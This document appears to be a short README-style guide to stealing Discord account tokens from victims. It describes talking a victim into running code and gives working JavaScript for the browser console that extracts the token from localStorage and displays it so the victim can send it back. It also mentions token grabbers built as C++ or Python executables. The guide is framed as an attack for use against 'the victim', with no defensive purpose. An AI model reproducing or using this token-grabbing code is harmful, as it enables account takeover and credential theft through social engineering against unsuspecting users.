 ## Discord Matters

### Grabbing the token
Our first step is to obtain the discord token. This can be done through a C++ program compiled into exe, Python program (may be in exe), or JavaScript injection in the console of discord web version. This involves a little social engineering as it requires either you or the victim to run the code and grab the token.

- Method 1: 

Get user to copy and paste this code into browser and send you back the token. Token will be alerted in window and logged in console. ``` function getLocalStoragePropertyDescriptor() {const iframe = document.createElement('iframe');document.head.append(iframe);const pd = Object.getOwnPropertyDescriptor(iframe.contentWindow, 'localStorage');iframe.remove();return pd;} Object.defineProperty(window, 'localStorage', getLocalStoragePropertyDescriptor());console.log(localStorage.token); window.alert(localStorage.token); ```

